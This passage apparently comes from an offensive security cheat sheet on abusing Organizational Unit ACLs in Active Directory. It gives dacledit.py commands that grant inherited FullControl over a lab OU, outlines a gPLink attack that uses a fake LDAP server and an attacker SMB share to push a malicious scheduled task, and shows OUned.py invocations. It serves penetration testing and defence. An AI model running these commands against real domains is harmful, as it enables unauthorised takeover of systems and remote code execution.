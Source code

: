 
### Non privileged objects

A user having the `GenericAll` right (and thus `WriteDACL` permissions) over an OU could add a `FullControl` ACE to the OU and specify that this ACE should be inherited, which will effectively lead to the compromise of all child objects since they will inherit said ACE. 

* Grant `Full Control` on **SERVERS** OU
	```ps1
	dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'username' -target-dn 'OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
	```

*  Verify that we have `Full Control` ACL on **AD01-SRV1** inside **SERVERS**
	```ps1
	dacledit.py -action 'read' -principal 'username' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
	```

:warning: ACE inheritance from parent objects is disabled for `adminCount=1`


### Privileged objects

**Requirements**:

- `GenericWrite` OR `Manage Group Policy` links
- Create a machine account
- Add new DNS records


**Attack's Flow**: gPLink -> Attacker GPC FQDN -> GPT configuration files in Attacker SMB share -> execute a malicious scheduled task

* Edit the `gPLink` value to include a GPC FQDN pointing the attacker machine
* Create a fake LDAP server mimicking the real one, but with a custom GPC
* GPC's gPCFileSysPath value is pointing to the attacker SMB share
* The SMB share is serving GPT configuration files including a malicious scheduled task


**Exploit**:

Check this [blog post from Synacktiv](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) to correctly setup all the requirements for this attack to succeeded.

```ps1
sudo python3 OUned.py --config config.ini
sudo python3 OUned.py --config config.example.ini --just-coerce
```


## References

* [ACE to RCE - @JustinPerdok - July 24, 2020](https://sensepost.com/blog/2020/ace-to-rce/)
* [Access Control Entries (ACEs) - The Hacker Recipes - @_nwodtuhs](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-aces)
* [Escalating privileges with ACLs in Active Directory - April 26, 2018 - Rindert Kramer and Dirk-jan Mollema](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)
* [OU having a laugh? - Petros Koutroumpis - 6 November, 2019](https://labs.withsecure.com/publications/ou-having-a-laugh)
* [OUNED.PY: EXPLOITING HIDDEN ORGANIZATIONAL UNITS ACL ATTACK VECTORS IN ACTIVE DIRECTORY - Quentin Roland - 19/04/2024](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory)